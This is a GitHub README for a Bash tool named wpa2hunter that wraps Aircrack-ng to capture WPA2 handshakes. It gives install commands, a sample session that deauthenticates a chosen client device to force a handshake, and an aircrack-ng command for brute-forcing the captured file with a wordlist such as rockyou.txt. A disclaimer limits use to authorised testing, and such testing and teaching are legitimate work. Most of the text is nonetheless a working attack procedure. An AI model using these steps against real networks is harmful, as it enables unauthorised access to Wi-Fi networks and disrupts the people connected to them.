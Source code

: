 # WPA2-Password-Cracker


This repository contains a Bash script for catching WPA2 4-way handshake using Aircrack-ng tools. The script automates the process of capturing BSSID and Handshake for a specified Wi-Fi network.


# Disclaimer

This project is a demonstration and educational tool developed for learning and research purposes only. The primary goal is to provide insights into network security and cryptography by showcasing the vulnerabilities associated with weak handshake protocols.


**Note: Unauthorized access to computer systems and networks is illegal and unethical. This project should only be used in environments where you have explicit permission to test and assess security.**


## Installation

**Make sure you have Aircrack-ng and gnome-terminal installed. You can install them on Debian-based systems using:**
### Dependencies
- aircrack-ng
- gnome-terminal
  

```bash
sudo apt update
sudo apt install aircrack-ng
sudo apt install gnome-terminal
```

### Install using dpkg

**Download the .dep File**
- Go to the [Releases](https://github.com/sacheex/WPA2-WIFI-Password-Cracker/releases) section of this repository.
- Find the desired version and download the .dep file
- Navigate to the directory where the .dep file is located
- Run the installation command:
  ```bash
  sudo dpkg -i wpa2hunter
  ```

### Install using git clone


**Clone the repo and navigate to the directory**
```bash
git clone https://github.com/sacheex/WPA2-WIFI-Password-Cracker.git
cd WPA2-Password-Cracker
```
**Make the script executable**
```bash
chmod +x wpa2hunter
```

**Run the script**
```bash
./wpa2hunter
```

**Crack the password**

You can use Wireshark to open the captured file. Make sure you capture the 4-way handshake.

```bash
wireshark <filename>.cap
```
Filter wireshark messages for eapol

**Use Aircrack-ng to crack the password. Provide a password list, such as rockyou.txt, for brute force**

```bash
aircrack-ng <filename>.cap -w <path to password list>
```

### Usage
```bash
$ wpa2hunter

         _       ______  ___   ___   __  ____  ___   __________________ 
        | |     / / __ \/   | |__ \ / / / / / / / | / /_  __/ ____/ __ 
        | | /| / / /_/ / /| | __/ // /_/ / / / /  |/ / / / / __/ / /_/ /
        | |/ |/ / ____/ ___ |/ __// __  / /_/ / /|  / / / / /___/ _, _/ 
        |__/|__/_/   /_/  |_/____/_/ /_/\____/_/ |_/ /_/ /_____/_/ |_|  
                                                                          
                                                                                𝙱𝚢 𝚜𝚊𝚌𝚑𝚎𝚎𝚡
________________________________________________________________________________



Enter network interface: wlan1


PHY     Interface       Driver          Chipset

phy0    wlan0           ath10k_pci      Qualcomm Atheros QCA9377 802.11ac Wireless Network Adapter (rev 31)
phy4    wlan1           rtl8xxxu        Realtek Semiconductor Corp. RTL8188EUS 802.11n Wireless Network Adapter
                (mac80211 monitor mode already enabled for [phy4]wlan1 on [phy4]10)

Enter name of the interface that is on monitor mode: wlan1


Enter "q" two times to quit from capturing BSSID: 


 CH  8 ][ Elapsed: 0 s ][ 2024-01-02 00:31 ][ Are you sure you want to quit? Press Q again to quit.                                                                                                                                          
                                                                                                                                                                                                                                             
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                             
                                                                                                                                                    
 32:C2:**:**:**:**  -65        3        0    0   1  180   WPA2 CCMP   PSK  WIFI                                                                                                                                                         
                                                                                                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                                                                                                                           
                                                                                                                                                                                                                                             
 32:C2:**:**:**:**  EE:20:52:**:**:**  -58    0 - 1      0       11                                                                                                                                                                          


                                                                                                                                                                                                                                             
Enter BSSID: 32:C2:51:C4:51:D8                                                                                                                                                                                                               

Enter Channel number: 1                                                                                                                                                                                                                      

Enter file name to save captured files: hack1                                                                                                                                                                                                

Options:                                                                                                                                                                                                                                     
                1. Deauth all devices Connected to the network                                                                                                                                                                               
                2. Deauth specified device                                                                                                                                                                                                   
Your choice: 2                                                                                                                                                                                                                               

Enter BSSID of the device: EE:20:52:**:**:**                                                                                                                                                                                                 


Enter "q" two times to quit after capturing Handshake                                                                                                                                                                                        
00:31:54  Created capture file "hack1-01.cap".                                                                                                                                                                                               
                                                                                                                                                                                                                                             
CH  1 ][ Elapsed: 12 s ][ 2024-01-02 00:32 ][ Are you sure you want to quit? Press Q again to quit.                                                                                                                                         
                                                                                                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                         
                                                                                                                                                                                                                                             
 32:C2:**:**:**:**  -62   0      103       30    8   1  180   WPA2 CCMP   PSK  WIFI                                                                                                                                                      
                                                                                                                                                                                                                                             
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                                                                                                                           
                                                                                                                                                                                                                                             
 32:C2:**:**:**:**  EE:20:52:**:**:**  -62    1e- 1    134      288  EAPOL  Redmi 9C                                                                                                                                                         
```

